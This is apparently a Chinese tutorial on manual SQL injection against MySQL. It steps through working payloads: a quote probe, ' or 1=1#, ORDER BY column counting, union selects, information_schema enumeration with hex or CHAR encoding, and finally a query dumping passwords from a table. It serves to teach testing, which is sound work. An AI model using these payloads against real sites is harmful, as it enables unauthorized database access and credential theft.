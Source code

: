 # SQL手工注入基础
```
Author:C0d3r1iu 有什么疑惑可以随时联系我
mail:admin@recorday.cn
```
***


# 标准手工注入流程

### 1.探测注入点

#### 1.测试注入点是否存在

常用方法：

1.单引号探测

![](http://hitnslab.com:65503/media/upload/SQL1.png)


2.逻辑语句判断

这里分析语句可知，用单引号闭合前一个引号，后面执行我们的or语句

payload:`' or 1=1# `

这样就把所有信息显示出来了

![](http://hitnslab.com:65503/media/upload/SQL2.png)

如果是信息显示类注入点，还可以用and 1=1 和and 1=2 ，前者返回成功，后者返回失败来进行判断，这里不再赘述。

### 2.探测注入点之后，收集信息

#### 1.union select 联合查询

在联合查询前，需要判断能显示字段的数量，用到order by 语句
这里作为演示，猜字段数的区间小一点，尽可能用二分法，凭感觉也可以

![](http://hitnslab.com:65503/media/upload/SQL3_aLS41LU.png)

![](http://hitnslab.com:65503/media/upload/SQL4_ge34s6s.png)

之后又试了 orderby3不报错，4报错

因此是3个字段

我们构造如下语句：

`' union select 1,2,3 #`

再次注入查看效果即可

![](http://hitnslab.com:65503/media/upload/SQL5.png)

那我们替换成

`' union select version(),now(),user()#`

之后呢？

![](http://hitnslab.com:65503/media/upload/SQL6.png)

没错，这样就可以查询，搜集信息

version()版本信息
database()数据库名
user()获取当前用户
@@ version_compile_os 操作系统信息

#### 2.查询information_schema

如果mysql版本大于5.0，可以对默认表进行读取进行更多信息的探索:
payload如下：
`'union select 1,table_name from  information_schema.tables #`

![](http://hitnslab.com:65503/media/upload/SQL7.png)

在爆出的众多表名中寻找需要利用的即可

![](http://hitnslab.com:65503/media/upload/SQL8.png)

或者爆指定数据库的表（hex转码）：

![](http://hitnslab.com:65503/media/upload/SQL9.png)

payload1如下：

`' union select 1,2,table_name from information_schema.tables where table_schema='inject`

payload2如下：

`' union select 1,2,table_name from information_schema.tables where table_schema=0x696E6A656374 #`

同理payload3如下：

`' union select 1,2,table_name from information_schema.tables where table_schema=CHAR(105,110,106,101,99,116)#';`

#### 3.读完表名读字段

把上一步的table换成column就可以了

payload：

`' union select 1,2,column_name from information_schema.columns where table_name='dbinfo`

#### 4.读取表内部具体内容

这里注意要带上库的名字，看程序具体怎么写

payload:

`' union select 1,2,password from inject.dbinfo#`

到了这里，一次完整的注入基本就完成了



